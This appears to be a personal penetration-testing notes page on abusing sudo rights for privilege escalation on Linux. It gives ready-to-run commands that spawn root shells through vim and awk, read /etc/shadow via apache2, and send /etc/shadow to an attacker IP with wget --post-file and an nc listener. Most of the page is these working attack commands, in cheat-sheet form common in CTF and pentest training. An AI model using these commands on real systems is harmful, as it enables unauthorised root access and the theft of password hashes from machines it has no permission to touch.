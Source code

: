 -- -
Ways I've abused sudo to get privesc laterally or vertically.
#### Enum
![[Dark Arts/Privesc/Enumeration/Sudo#^767678|Sudo]]
If it outputs custom scripts/software, you can look into creative ways to abuse it. Otherwise, check each program output on [GTFOBins](https://gtfobins.github.io) and it will let you know if software is vulnerable or not, and how to exploit it if it is vulnerable. 
#### Vim/Vi
```bash
sudo vim -c ":!/bin/sh"
```
#### awk
```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```

#### Apache
Sometimes, you will have a program that shows up in the enum that does not show up as exploitable in GFTOBins, but that doesn't mean it isn't possible to abuse, in this case you can put in the software into google: `apache privesc exploit`
This may come up with something like the following with a way it can be abused to privesc, in this case you get a file read on a file we shouldn't be able to read:
```bash
sudo apache2 -f /etc/shadow
```
#### wget
Similarly to above, you may not see wget in GTFOBins directly, but you can use it to get file access to files locked to root, so you can abuse wget to send yourself a file (like `/etc/shadow`) that you should not have access to:
```bash
# on attack box
nc -nvlp <listening port>
nc -nvlp 8001

# on target
sudo wget --post-file=<file path> <attack ip>:<listening port>
sudo wget --post-file=/etc/shadow 10.10.10.10:8001
```
#### Resources
- [GTFOBins](https://gtfobins.github.io)